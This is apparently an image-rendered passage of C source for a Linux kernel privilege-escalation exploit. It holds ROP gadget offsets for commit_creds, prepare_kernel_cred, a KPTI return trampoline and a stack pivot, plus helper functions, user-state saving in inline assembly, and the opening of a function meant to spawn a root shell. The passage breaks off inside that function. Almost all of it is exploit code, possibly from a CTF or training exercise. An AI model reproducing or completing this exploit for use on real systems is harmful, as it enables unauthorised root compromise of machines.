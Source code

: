 ```c
const uint64_t rop_len = 200;
const uint64_t ioctl_off = 12 * sizeof(uint64_t);

// Gadgets
// 0x723c0: commit_creds
uint64_t commit_creds;
// 0x72560: prepare_kernel_cred
uint64_t prepare_kernel_cred;
// 0x800e10: swapgs_restore_regs_and_return_to_usermode
uint64_t kpti_tramp;
// 0x14fbea: push rdx; xor eax, 0x415b004f; pop rsp; pop rbp; ret; (stack pivot)
uint64_t push_rdx;
// 0x35738d: pop rdi; ret;
uint64_t pop_rdi;
// 0x487980: xchg rdi, rax; sar bh, 0x89; ret;
uint64_t xchg_rdi_rax;
// 0x32afea: ret;
uint64_t ret;

void err(const char* format, ...) {
    if (!format) {
        exit(-1);
    }

    fprintf(stderr, "%s", "[!] ");
    va_list args;
    va_start(args, format);
    vfprintf(stderr, format, args);
    va_end(args);
    fprintf(stderr, "%s", "\n");
    exit(-1);
}

void info(const char* format, ...) {
    if (!format) {
        return;
    }
    
    fprintf(stderr, "%s", "[*] ");
    va_list args;
    va_start(args, format);
    vfprintf(stderr, format, args);
    va_end(args);
    fprintf(stderr, "%s", "\n");
}

void save_state(void) {
    __asm__(
        ".intel_syntax noprefix;"   
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        // Push CPU flags onto stack
        "pushf;"
        // Pop CPU flags into var
        "pop user_rflags;"
        ".att_syntax;"
    );
}

// Should spawn a root shell
void pop_shell(void) {
    uid_t uid = getuid();
```